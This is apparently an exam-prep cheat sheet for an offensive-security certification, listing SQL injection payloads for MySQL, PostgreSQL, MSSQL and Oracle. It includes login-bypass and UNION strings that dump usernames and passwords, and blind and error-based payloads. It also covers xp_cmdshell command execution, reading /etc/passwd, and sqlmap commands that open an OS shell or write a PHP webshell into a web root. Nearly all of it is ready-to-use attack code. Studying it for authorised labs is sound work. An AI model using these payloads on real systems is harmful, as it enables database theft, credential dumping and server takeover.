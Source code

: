 
# 🛡️ SQL Injection Attack Reference — OffSec Exam Edition

> ✅ Focus: MySQL, PostgreSQL, Oracle, MSSQL | 🔎 Goal: Rapid Identification & Exploitation

---

## 🧩 MySQL Injection Quick Hits

### Recon
```sql
SELECT VERSION();
SELECT CURRENT_USER();
SELECT DATABASE();
SELECT table_schema FROM information_schema.tables GROUP BY table_schema;
SELECT table_name FROM information_schema.tables WHERE table_schema='app';
SELECT column_name, data_type FROM information_schema.columns WHERE table_name='menu';
```

### Common Exploits
```sql
' OR 1=1 --          -- Bypass login
' UNION SELECT NULL, username, password FROM users --  -- Dump users
extractvalue('', CONCAT('>', (SELECT version())))  -- Error-based info leak
' AND SLEEP(5) --    -- Time-based blind injection
```

---

## 🧩 PostgreSQL Injection

### Recon
```sql
SELECT version();
SELECT current_user;
SELECT datname FROM pg_database;
SELECT table_name FROM information_schema.tables WHERE table_schema='public';
SELECT column_name FROM information_schema.columns WHERE table_name='table';
```

### Exploits
```sql
' OR 1=1 --  -- Bypass
' UNION SELECT NULL, username, password FROM users --  -- Dump
pg_read_file('postgresql.conf', 0, 1000);  -- Read files (superuser)
SELECT flag FROM flag_table;  -- Extract flag
```

---

## 🧩 SQL Server Injection (MSSQL)

### Recon
```sql
SELECT @@version;
SELECT SYSTEM_USER;
SELECT name FROM sys.databases;
SELECT * FROM information_schema.tables;
SELECT COLUMN_NAME FROM information_schema.columns WHERE TABLE_NAME='users';
```

### Exploits
```sql
' OR 1=1 --  -- Bypass
CAST((SELECT name FROM sysobjects WHERE type='U') AS INT)  -- Error-based table names
WAITFOR DELAY '00:00:05' --  -- Time delay
EXEC xp_cmdshell('dir');  -- OS command exec (if enabled)
```

---

## 🧩 Oracle Injection

### Recon
```sql
SELECT * FROM v$version;
SELECT user FROM dual;
SELECT owner FROM all_tables GROUP BY owner;
SELECT table_name FROM all_tables WHERE owner='SYS';
```

### Exploits
```sql
SELECT DBMS_METADATA.GET_DDL('TABLE', 'table_name') FROM dual;  -- Get table schema
TO_CHAR(DBMS_XMLGEN.GETXML('SELECT banner FROM v$version'))  -- Error-based
```

---

## 🧠 SQL Injection Types

| Type       | Example |
|------------|---------|
| Boolean    | `' AND 1=1 --` |
| Error-Based | `extractvalue('', concat('>', (SELECT version())))` |
| Union      | `' UNION SELECT NULL, username, password FROM users --` |
| Time-Based | `' AND SLEEP(5) --` |
| Stacked    | `'; SELECT user(); --` |

---

## ⚙️ SQLMap Usage

```bash
sqlmap -u "http://site.com/page.php?id=1" --risk=3 --level=5 --dbs --batch
sqlmap -u "http://site.com/index.php?id=8" -D dbname -T flags --columns --batch
sqlmap -u "http://target.com/?id=1" --os-shell  # If RCE is possible
sqlmap -r burp_request.txt --dbms=PostgreSQL --dump --batch
```

### Upload Webshell
```bash
sqlmap -u "http://site.com/page.php?id=1" --file-write="shell.php" --file-dest="/var/www/html/shell.php" --batch
```

---

## 🧾 Error-Based Enumeration (MSSQL)

```sql
CAST((SELECT TOP 1 flag FROM app.dbo.flags) AS INT);
CAST((SELECT name FROM app.sys.tables ORDER BY name OFFSET 2 ROWS FETCH NEXT 1 ROWS ONLY) AS INT);
```

---

## 🧪 UNION-Based Enumeration

```sql
')) UNION SELECT 1, schema_name, '', 1 FROM information_schema.schemata -- -
')) UNION SELECT 1, table_name, '', 1 FROM information_schema.tables WHERE table_schema='target_db' -- -
')) UNION SELECT 1, column_name, '', 1 FROM information_schema.columns WHERE table_name='target_table' -- -
')) UNION SELECT 1, flag, '', 1 FROM target_table -- -
```

---

## 🔐 File Read in MySQL

```sql
SELECT @@GLOBAL.secure_file_priv;
SELECT LOAD_FILE('/etc/passwd');
SELECT * FROM users INTO OUTFILE '/var/lib/mysql-files/dump.txt';
```

## 🔐 File Read in PostgreSQL

```sql
SELECT pg_read_file('postgresql.conf', 0, 1000);
```

---

## 💡 Tips for Exam

- Automate table/column discovery (loop offset).
- Use UNION where possible for quick data dump.
- Fall back to blind/time-based if no error shown.
- Document every discovered DB/table/column/value immediately.
- Prepare payloads for each DBMS in your clipboard/snippets.

---

> 🏁 **Good luck on the exam — 5 machines in 24 hours! Efficiency and methodology are your greatest weapons.**

